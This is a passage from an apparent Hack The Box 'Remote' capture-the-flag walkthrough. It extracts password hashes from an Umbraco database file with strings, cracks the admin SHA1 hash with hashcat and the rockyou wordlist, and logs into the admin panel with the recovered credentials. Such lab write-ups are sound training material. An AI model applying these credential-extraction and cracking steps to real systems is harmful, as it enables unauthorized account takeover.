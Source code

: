 By using the <mark>strings</mark> command to remove unnecessary clutter, we find <mark>password hashes</mark> for relevant users at the top of the file. SHA1 hash can be cracked, unlike HMAC-SHA256 hash, without its secret key we are out of luck.

{% highlight shell %}
┌──(iwo㉿kali)-[/mnt/App_Data]                                         
└─$ strings Umbraco.sdf | less
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
{% endhighlight %}

### Cracking the hash

We cracked the Administrator’s hash with ease using a rockyou dictionary.

{% highlight shell %}
┌──(iwo㉿kali)-[/Desktop/Boxes/Remote/hashes]                                         
└─$ hashcat -h | grep SHA1
    100 | SHA1 
{% endhighlight %}

{% highlight shell %}
┌──(iwo㉿kali)-[/Desktop/Boxes/Remote/hashes]                                         
└─$ hashcat -a 0 -m 100 admin.hash /usr/share/wordlists/rockyou.txt

<SNIP>

b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese
{% endhighlight %}

### Umbraco

We can now login to <mark>Umbraco</mark>'s admin panel using credentials <mark>admin@htb.local:baconandcheese</mark>.

![Admin panel homepage](/assets/img/posts/Remote/admin-panel-homepage.png)
